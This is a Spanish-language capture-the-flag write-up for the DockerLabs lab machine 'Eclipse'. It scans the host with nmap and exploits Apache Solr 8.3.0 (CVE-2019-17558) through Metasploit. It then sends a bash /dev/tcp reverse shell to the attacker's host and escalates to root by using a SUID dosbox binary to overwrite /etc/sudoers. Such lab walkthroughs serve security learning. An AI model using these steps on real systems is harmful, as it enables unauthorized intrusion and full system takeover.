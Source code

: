 Maquina **Eclipse** de [DockerLabs](https://dockerlabs.es)

Autor: [Xerosec](https://www.youtube.com/c/xerosec)

Dificultad: Medio

![Eclipse](/maquina-eclipse/img/eclipse.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Wed Dec 18 00:26:02 2024 as: nmap -sS -sV -sC --open --min-rate 5000 -n -Pn -p- -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-18 00:26:03 -03 for 13s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
|_http-title: Epic Battle
|_http-server-header: Apache/2.4.59 (Debian)
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
8983/tcp open  http    syn-ack ttl 64 Apache Solr
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Solr Admin
|_Requested resource was http://172.17.0.2:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 00:26:16 2024 -- 1 IP address (1 host up) scanned in 13.35 seconds
```

Como vemos hay 2 puertos abiertos:

•`Puerto 80: Apache httpd 2.4.59`

•`Puerto 8983: Apache Solr`

y estamos frente a un debian.

Luego de revisar el puerto 80, no encuentro nada interesante, por lo que pasaremos directamente al 8983.

Puerto 8983:

![Solr 8983](/maquina-eclipse/img/solr.png)

Como vemos tenemos un `solr 8.3.0`, la cual es vulnerable a un `RCE(Remote code execution)`.

# Intrusión

Luego de buscar, veo que hay un exploit de `metasploit`, por lo que continuaremos iniciandolo:

```css
msfconsole
```

luego buscamos el exploit:

```css
search CVE: 2019-17558
```

```css
use 0
```

una vez seleccionado el exploit, vamos a configurarlo:

```css
set RHOST 172.17.0.2
```

```css
set LHOST 172.17.0.1
```

y finalmente, ejecutamos el exploit:

```css
exploit
```

una vez nos sale el prompt "`meterpreter >`" ejecutamos `shell`, y ya estaremos dentro pero volveremos a enviarnos una shell ya que la de metasploit no es muy comoda.

Despues de ejecutar shell, escuchamos con netcat en el puerto 9090 (`nc -nlvp 9090`) y enviamos la siguiente shell:

```css
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9090 0>&1'
```

Luego de que nos llegue la shell, realizamos el tratamiento de la tty y listo.

# Escalada De Privilegios

### Ninhack

Estando dentro, procedo a buscar binarios con el bit SUID activado:

```css
find / -perm -4000 2>/dev/null
```

![SUID](/maquina-eclipse/img/suid.png)

al parecer el binario `dosbox` tiene activado el SUID, y este nos permite modificar archivos del sistema, por lo que lo utilizaremos para modificar el sudoers. Para esto ejecutaremos lo siguiente

```css
dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL:ALL) NOPASSWD: ALL >c:/etc/sudoers" -c exit
```

y listo, ya podremos ejecutar cualquier binario como root, por lo que para escalar debemos ejecutar `sudo su`.

### Root

![Root](/maquina-eclipse/img/root.png)

Gracias por leer :)